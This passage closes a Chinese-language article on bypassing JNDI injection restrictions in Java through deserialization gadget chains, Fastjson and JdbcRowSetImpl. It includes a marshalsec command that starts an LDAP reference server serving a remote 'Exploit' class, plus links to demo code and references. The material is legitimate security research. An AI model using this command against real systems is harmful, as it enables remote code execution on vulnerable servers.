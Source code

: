 这种绕过方式需要利用一个本地的反序列化利用链（如CommonsCollections），然后可以结合Fastjson等漏洞入口点和JdbcRowSetImpl进行组合利用.

### 写在最后

实战中可以使用marshalsec方便的启动一个LDAP/RMI Ref Server：

```java
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]

Example:

java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://8.8.8.8:8090/#Exploit 8088
```

本文内的相关测试代码见Github https://github.com/kxcode/JNDI-Exploit-Bypass-Demo

参考:https://www.anquanke.com/post/id/194384#h3-3

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

https://xz.aliyun.com/t/6660

https://www.anquanke.com/post/id/87270


